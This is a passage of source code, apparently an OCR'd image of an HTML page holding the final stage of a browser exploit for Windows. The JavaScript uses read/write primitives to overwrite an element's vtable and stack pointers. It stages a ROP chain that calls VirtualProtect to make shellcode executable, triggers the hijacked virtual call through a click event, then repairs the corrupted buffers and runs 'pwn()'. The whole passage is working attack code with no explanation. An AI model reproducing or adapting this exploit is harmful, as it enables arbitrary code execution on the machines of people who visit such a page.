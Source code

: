 ```html
            scratch_u64.fill(gadget, 0, 100);
            //scratch_u64.fill(0xdeadbeefn, 0, 100);
            let fake_vtab = scratch_addr;
            let fake_stack = scratch_addr + 0x10000n;
            let stack = [
                pop_gadgets[0],
                sc_addr,
                pop_gadgets[1],
                0x1000n,
                pop_gadgets[2],
                0x40n,
                pop_gadgets[3],
                scratch_addr,
                kernel32 + 0x193d0n, // VirtualProtect
                sc_addr,
            ];
            for (let i = 0; i < stack.length; ++i) {
                scratch_u64[0x10000/8 + i] = stack[i];
            }
            memory.writePtr(el_addr + 0x10n, fake_stack); // RSP
            memory.writePtr(el_addr + 0x50n, pop_gadgets[0] + 1n); // RIP = ret
            memory.writePtr(el_addr + 0x58n, 0n);
            memory.writePtr(el_addr + 0x60n, 0n);
            memory.writePtr(el_addr + 0x68n, 0n);
            memory.writePtr(el_addr, fake_vtab);
            // Trigger virtual call
            div.dispatchEvent(new Event('click'));
            // We are done here, repair the corrupted array buffers
            let addr = memory.addrof(driver_buf);
            memory.writePtr(addr + 32n, original_driver_buf_ptr);
            memory.writePtr(memview_buf_addr + 32n, original_memview_buf_ptr);
        }
        alert("Press OK to pwn");
        pwn();
        </script>
    </head>
    <body>
    </body>
</html>
```
